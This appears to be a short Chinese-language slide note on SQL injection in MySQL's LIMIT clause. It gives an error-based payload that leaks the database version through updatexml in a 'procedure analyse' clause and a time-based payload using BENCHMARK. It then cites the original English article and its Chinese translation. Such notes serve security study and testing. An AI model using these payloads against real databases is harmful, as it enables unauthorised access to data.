

显错注入：
procedure analyse(updatexml(1,concat(0x7c,version(),0x7c),1),1)
延时注入：
procedure analyse(updatexml(1,concat(0x7c,if(1=1,BENCHMARK(5000000,md5(1)),null),0x7c),1),1)
注释：
原文： https://rateip.com/blog/sql-injections-in-mysql-limit-clause/
译文： http://zone.wooyun.org/content/18220
感谢五道口杀气的翻译，以及分享。